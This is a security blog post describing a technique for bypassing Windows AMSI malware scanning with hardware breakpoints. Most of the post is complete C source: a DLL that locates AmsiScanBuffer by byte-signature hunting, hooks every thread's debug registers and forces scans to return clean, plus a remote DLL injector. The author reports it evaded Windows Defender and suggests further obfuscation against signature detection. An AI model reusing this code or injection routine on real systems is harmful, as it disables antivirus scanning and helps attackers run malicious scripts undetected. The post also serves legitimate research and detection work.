 ```yaml
---
title: "Frida vs. AMSI - Beyond Prototyping"
description: "We broke AMSI in theory, but now let's turn it into a real exploit!"
date: 2025-06-03
permalink: /blogs/amsi-breakpoints
---
```


# Frida vs. AMSI - Beyond Prototyping

In my [previous article on bypassing AMSI](/blogs/frida-vs-amsi), I discussed various approaches to disabling AMSI on a Windows system - by hooking and intercepting key functions, by patching them in memory, or by corrupting the data structures that AMSI relies on to function. 

All of these techniques are certainly effective, and Frida was a great tool for rapidly implementing and experimenting with them.

However, none of them are particularly stealthy. Patching a process in memory is a fairly noisy activity. While it might not get picked up by *every* EDR as long as you're not using signatured tooling, any product with a robust behavioural analysis function is likely to flag this as suspicious behaviour.

In this article, I'll describe another approach to patching AMSI. I also hope to further demonstrate Frida's usefulness as a rapid prototyping tool, as it was my earlier research using Frida that brought me here in the first place.

## Patchless Patching

The basic idea is recognisable from the previous article in this series: we're still patching the *AmsiScanBuffer()* function to short-circuit its functionality. In this case, we're going to simply redirect execution to the RET instruction at the end of *AmsiScanBuffer()* whenever it gets invoked. The function will return instantly with a default return value of 0.

The way we're going to execute that patch is different, however. We're going to use hardware breakpoints to intercept *AmsiScanBuffer()*, a technique I can't take credit for. I learned about it from an article in [VXUnderground Black Mass Halloween 2022](https://vx-underground.org/Papers/Other/VXUG%20Zines), which I highly recommend if you're comfortable with C. It's a great read.

The basic idea works as follows:

1. Create a DLL which must be injected into or loaded by the process you want to patch AMSI for. 
2. Within *DllMain()*, identify the memory address of the *DllCanUnloadNow()* function in the mapped version of AMSI.DLL. It precedes the function we're actually interested in.
3. Use egg-hunting techniques to scan forward from *DllCanUnloadNow()*, searching for the start of *AmsiScanBuffer()*. This indirect approach helps with evasion, as per the old **@am0nsec** implementation.
4. Manipulate debug registers to set a hardware breakpoint on the address of *AmsiScanBuffer()*. When the function is invoked, a special exception will be thrown.
5. Register an exception handler which manipulates the rip register to redirect execution to the end of the *AmsiScanBuffer()* function, bypassing it.

As with other egg-hunting AMSI patching techniques, this approach is somewhat fragile. The specific signatures we're searching for will change between different versions of Windows, and the bypass will need to be manually adjusted to work on those newer builds.

## Proof of Concept

Note that this is only a proof of concept and hasn't been tested extensively. It doesn't have error handling and isn't opsec-friendly. Still, here's what it looks like:

```c
#include <windows.h>
#include <sys/types.h>
#include <processthreadsapi.h>
#include <stdio.h>
#include <tlhelp32.h>

// AMSI Bypass DLL via Hardware Breakpoints
// Find some way to load or inject this DLL into your process and it will hook AmsiScanBuffer().
// Compilation: x86_64-w64-mingw32-gcc amsi-breakpoint.c -shared -o  amsi-breakpoint.dll

// A simple memory scanner for the purpose of finding ROP gadgets.
uintptr_t find_egg(uintptr_t addr, char *egg, int size, int max)
{
    for (int i = 0; i < max; i++)
    {
        if (memcmp((LPVOID)(addr + i), egg, size) == 0) {
            return (addr + i);
        }
    }
    return 0;
}

// Exception handler that gets invoked when the breakpoints trigger.
// It uses find_egg() to identify the RET instruction at the end of AmsiScanBuffer() and redirect execution to it.
// This effectively patches the function to return 0.
LONG WINAPI ExceptionHandler(PEXCEPTION_POINTERS ExceptionInfo) {
	// Validate that it's a single-step exception, thrown by the hardware breakpoint.
	if (ExceptionInfo->ExceptionRecord->ExceptionCode == STATUS_SINGLE_STEP) {
		// Search forwards from the current location for a RET instruction and move the instruction pointer to it.
		uintptr_t rip = ExceptionInfo->ContextRecord->Rip;
		uintptr_t newrip = find_egg(rip, "\xc3", 1, 500);
		ExceptionInfo->ContextRecord->Rip = newrip;
		return EXCEPTION_CONTINUE_EXECUTION;
	}
	return EXCEPTION_CONTINUE_SEARCH;
}

// Set a hardware breakpoint on a thread by manipulating the debug registers of its thread context.
BOOL set_hardware_breakpoint(HANDLE thd, uintptr_t address) {
	CONTEXT context = { .ContextFlags = CONTEXT_DEBUG_REGISTERS };
	GetThreadContext(thd, &context);
	
	// set the breakpoint address
	context.Dr0 = (uintptr_t) address;

	// set bits 0 and 1 of dr7 to '10' (enable dr0 local breakpoint)
	context.Dr7 |= 1ull << 0;
	context.Dr7 &= ~(1ull << 1);

	// set bits 16 and 17 of dr7 to '00' (set dr0 break trigger to "execute")
	context.Dr7 &= ~(1ull << 16);
	context.Dr7 &= ~(1ull << 17);

	// set bits 18 and 19 of dr7 to '00' (set dr0 break size to 1 byte)
	context.Dr7 &= ~(1ull << 18);
	context.Dr7 &= ~(1ull << 19);	

	return SetThreadContext(thd, &context);
}


// Remove a hardware breakpoint on a thread by manipulating the debug registers of its thread context.
BOOL remove_hardware_breakpoint(HANDLE thd) {
	CONTEXT context = { .ContextFlags = CONTEXT_DEBUG_REGISTERS };
	GetThreadContext(thd, &context);
	
	// unset the breakpoint address
	context.Dr0 = 0ull;
	
	// unset bit 0 of dr7
	context.Dr7 &= ~(1ull << 0);
	
	return SetThreadContext(thd, &context);
}

// Iterate through the threads associated with a process and hook all of them with hardware breakpoints.
void hook_process(DWORD pid, uintptr_t addr) {
	HANDLE h = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
	THREADENTRY32 te = { .dwSize = sizeof(THREADENTRY32) };
	Thread32First(h, &te);

	do {
		if (te.th32OwnerProcessID == pid && (te.dwSize >= FIELD_OFFSET(THREADENTRY32, th32OwnerProcessID) + sizeof(te.th32OwnerProcessID))) {
			HANDLE thd = OpenThread(THREAD_ALL_ACCESS, FALSE, te.th32ThreadID);
			BOOL res = set_hardware_breakpoint(thd, addr);
			if (res) {
				printf("Hooked 0x%p on thread %i\n", addr, te.th32ThreadID);
			}
		}
	} while (Thread32Next(h, &te));

	CloseHandle(h);		
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
	const PVOID handler = AddVectoredExceptionHandler(1, ExceptionHandler);	
	const DWORD pid = GetCurrentProcessId();
	
	// Find the target address using a signature-based technique for evasion. Signature may need to be updated for different Windows versions.
	char *egg = "\x4C\x8B\xDC\x49\x89\x5B\x08\x49\x89\x6B\x10\x49\x89\x73\x18\x57\x41\x56\x41\x57\x48\x83\xEC\x70";
	uintptr_t base = (uintptr_t)GetProcAddress(GetModuleHandleW(L"AMSI.dll"), "DllCanUnloadNow");
	uintptr_t addr = find_egg(base, egg, 24, 65535);

	switch(fdwReason) {
		case DLL_PROCESS_ATTACH:
			// Hook the target address.	
			hook_process(pid, addr);
			break;
		
		break;
	}
	
	return TRUE;
}
```

For testing purposes, you can use the following "injector" to load the DLL into memory:

```c
#include <windows.h>
#include <sys/types.h>

void dll_inject(char *dll_path, pid_t pid) {
	HANDLE proc = OpenProcess(PROCESS_ALL_ACCESS, 0, pid);

	void *ptr = VirtualAllocEx(proc, 0, strlen(dll_path), MEM_COMMIT|MEM_RESERVE, PAGE_READWRITE);
	WriteProcessMemory(proc, ptr, dll_path, strlen(dll_path), 0);

	void *kernel32 = GetModuleHandle(TEXT("kernel32.dll"));
	void *loadLibAddr = GetProcAddress(kernel32, "LoadLibraryA");
	CreateRemoteThread(proc, NULL, 0, loadLibAddr, ptr, 0, NULL);	
}

void main() {
	dll_inject("C:\\Users\\IEUser\\Downloads\\amsi-breakpoint.dll", 2768);
}
```

Upon running `inject.exe` with the correct path and the PID of your Powershell process, you should find that AMSI has been disabled for it.

![a screenshot that demonstrates the breakpoint AMSI bypass](/img/amsi-breakpoint.png)

If you don't, then you might need to adjust the "egg" to match the function signature of *AmsiScanBuffer()* for your version of Windows. [The previous article](/blogs/frida-vs-amsi) describes how you can use Frida to easily extract those bytes.

## Conclusion

I won't be publishing the code for this AMSI bypass elsewhere, as I haven't tested it extensively enough to be sure it functions reliably. On my Windows 10 testing VM, though, it was enough to bypass AMSI without triggering the (non-enterprise) Windows Defender present on the system.

Breakpoint hooking is a technique I have injected (pun intended) from my own reading, but everything else I did here builds on the things I learned about AMSI by using Frida to explore its functionality. I think it's a great illustration of how you can use reverse engineering and instrumentation tools to go from idea to prototype, and then prototype to proof of concept.

I might now go from proof of concept to finished tooling. It could certainly do with proper error handling and clean up, as well as a bit more obfuscation to throw off signature-based detections. For example, we still have the "amsi.dll" string embedded in the binary, which isn't ideal and would be easy to rectify. 

Tools like this tend to get burned pretty quickly when you release them publicly, though, so I'll probably leave any further development as an exercise for the reader.
